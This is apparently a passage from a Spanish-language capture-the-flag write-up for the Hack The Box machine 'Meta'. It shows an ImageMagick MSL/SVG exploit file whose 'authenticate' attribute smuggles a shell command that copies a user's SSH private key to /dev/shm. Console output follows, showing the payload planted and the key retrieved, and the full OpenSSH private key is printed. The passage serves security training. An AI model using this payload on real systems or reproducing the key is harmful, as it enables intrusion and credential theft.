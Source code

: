 ```xml
<image authenticate='ff" `echo $(cat ~/.ssh/id_rsa)> /dev/shm/key`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

```console
www-data@meta:/dev/shm$ cp /tmp/any0ne/poc.svg /var/www/dev01.artcorp.htb/convert_images/poc.svg
www-data@meta:/dev/shm$ ls -l /var/www/dev01.artcorp.htb/convert_images/
total 4
-rw-r--r-- 1 www-data www-data 432 Jan 25 20:13 poc.svg
www-data@meta:/dev/shm$ ls -l
total 8
-rw-r--r-- 1 thomas   thomas   2590 Jan 25 20:29 key
-rw-r--r-- 1 thomas   thomas     33 Jan 25 20:14 userflag
```

Ya podemos leer la clave para conectarnos por SSH:

```console
www-data@meta:/dev/shm$ cat key
-----BEGIN OPENSSH PRIVATE KEY----- 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 bhFErAeoncE3vJAAAACXJvb3RAbWV0YQE= -----END OPENSSH PRIVATE KEY-----
```
